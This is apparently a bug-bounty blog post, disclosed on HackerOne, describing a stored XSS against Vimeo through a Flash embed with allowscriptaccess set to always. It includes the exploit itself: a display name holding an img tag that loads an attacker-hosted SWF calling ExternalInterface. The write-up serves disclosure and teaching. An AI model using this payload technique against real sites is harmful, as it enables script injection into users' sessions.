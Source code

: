 ```yaml
---
layout: post
title: "XSSing Flash without user interaction"
---
```

_Just to clarify: the point of this post is to understand why is better to not use `allowscriptaccess` set to `always` when embedding a Flash file in a document, and it's not about XSSing Flash loading a file directly in the browser because in that case the third party files are sandboxed._

Looking for bugs on [Vimeo](https://hackerone.com/vimeo) I found out that they embed the Flash file <https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf> with `allowscriptaccess` set to `always` at this endpoint <https://vimeo.com/hubnut/user/user36690798>. This Flash file is used to show the videos uploaded by the user indicated (_user36690798_ in this case).

{% highlight html %}
<!-- code that embeds Flash file -->
<object width="100%" height="100%">
...
<param name="allowscriptaccess" value="always" />
...
<param name="movie" value="https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf?v=1.0.0" />
<embed src="https://f.vimeocdn.com/p/flash/hubnut/2.0.12/hubnut.swf?..." type="application/x-shockwave-flash" ... allowscriptaccess="always" ...></embed>
</object>
{% endhighlight %}

If you [look at the source of the endpoint](view-source:https://vimeo.com/hubnut/user/user36690798) you notice that there is a `var config` which contains information about the user, including the name (which appears as the value of `display_name`). This variable is loaded by the Flash file who puts the value of `display_name` in a `TextField()` using the setter `.text` and, because they apply a style sheet to the `TextField()`, the content [is interpreted as HTML](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#text) like using `.htmlText`.

{% highlight js %}
// An extract of the code of the class _Carousel_ from the file _hubnut.swf_
...
this.selectedLabel.styleSheet = _loc2_;
...
// here "display_name" appears as "_loc4_.owner.display_name"
_loc13_ = _loc13_ + (_loc4_.owner.url?"<h2>by <a href=\"//" + this.data.request.vimeo_url + "/" + _loc4_.owner.url_name + "\" target=\"_blank\">" + _loc4_.owner.display_name + "</a></h2>":"<h2>by <strong>" + _loc4_.owner.display_name + "</strong></h2>");
...
this.selectedLabel.text = _loc13_;
...
{% endhighlight %}

Now, the value of `display_name` is being encoded as HTML entities, but it was not the case 2 months ago (I think that they were escaping as JSON, for instance `/` was being escaped as `\/`). So, it was possible to put HTML code but Flash doesn't interpret every HTML tag as valid. Which one is the widely used for this case? `<a>`, yes, but the problem is that you have a limit of 32 characters for your name in Vimeo and for me wasn't enough to make a valid proof of concept. With this scenario I decided to read [which HTML tags are interpreted by Flash](http://help.adobe.com/en_US/FlashPlatform/reference/actionscript/3/flash/text/TextField.html#htmlText) and noticed this about the `<img>` tag:

> src: Specifies the URL to an image or SWF file

Sounds promising! Anyway, at first I thought that maybe Flash loaded the file in a sandbox to disallow execution of Javascript code but I continued the testing. I uploaded a Flash file to my server which executed `ExternalInterface.call("alert(document.domain)");` and changed my name to `<img src="//u00f1.xyz/xss.swf">`. Reloaded <https://vimeo.com/hubnut/user/user36690798> and for my surprise `alert(document.domain)` was executed on **vimeo.com** without user interaction.

After successfully execute Javascript using an `<img>` tag, I went to check if it was possible to do the same but in cases where you can provide the URL of an image that is shown using Flash, and I confirmed that it is possible. What I mean is that if, for example, Vimeo allowed to put any URL as the thumbnail of the video, you could provide an URL to a Flash file of yours with Javascript code and it would probably load the file and execute the Javascript code.

You can test the issue using the `<img>` tag [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=true&asObject=false) and the issue when you can provide the URL of an image [here](http://esevece.github.io/code/XssImage.html?file=https%3A%2f%2fgithub.com%2fesevece%2fesevece.github.io%2fblob%2fmaster%2fcode%2fxss.swf%3Fraw%3Dtrue&asHtml=false&asObject=false).
This code is available at <https://github.com/esevece/esevece.github.io/tree/master/code>.  

The report [is publicly disclosed on HackerOne](https://hackerone.com/reports/87577) thanks to Vimeo.
